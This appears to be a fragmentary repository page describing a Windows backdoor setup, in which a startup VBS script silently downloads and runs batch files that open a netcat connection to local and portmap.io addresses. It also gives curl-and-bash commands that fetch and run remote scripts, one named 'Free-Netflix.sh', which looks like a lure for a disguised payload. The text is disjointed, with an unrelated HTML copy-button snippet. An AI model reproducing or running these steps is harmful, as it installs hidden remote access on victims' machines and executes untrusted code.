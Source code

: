 <!-- The text field -->
<input type="text" value="https://www.kali.org/docs/nethunter/nethunter-rootless/" id="myInput">

<!-- The button used to copy the text -->
<button onclick="myFunction()">Copy text</button>


the two .bat files and vbs are going to be downloaded and executed by another vbs files named startupnetcat.vbs will download the three files 
and execute them invisibly
the netcat.bat have inside local and wan (portmap.io) ip so if locally ur ip changed just edit the netcat.bat file









Server command

1) curl -LO https://raw.githubusercontent.com/wolfyy59/wfy/master/server.sh  

2) bash server.sh

 
===

Netflix command 

===

1) curl -LO https://raw.githubusercontent.com/wolfyy59/wfy/master/Free-Netflix.sh

2) bash Free-Netflix.sh
